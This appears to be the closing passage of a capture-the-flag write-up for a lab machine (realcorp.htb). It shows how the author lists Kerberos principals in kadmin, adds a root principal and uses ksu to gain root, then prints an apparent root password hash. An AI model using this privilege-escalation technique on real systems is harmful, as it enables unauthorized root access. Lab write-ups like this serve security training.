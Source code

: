 after login I listed all the users

```
list_principals

K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

there was no root

so just add the root principal

```
add_principal root@REALCORP.HTB
```

type the password and exit the console

then type ksu and login

ROOTED

$6$2ZKaulGjQ1QUYQHO$OmVJBK0.VeikBcOsxyrLfPCEkrfo6S8SJmHd4FH7el9vHcduJrO7jHYEHjIN7Z4n1c3KBLNe5L9inXSgeBsNS.
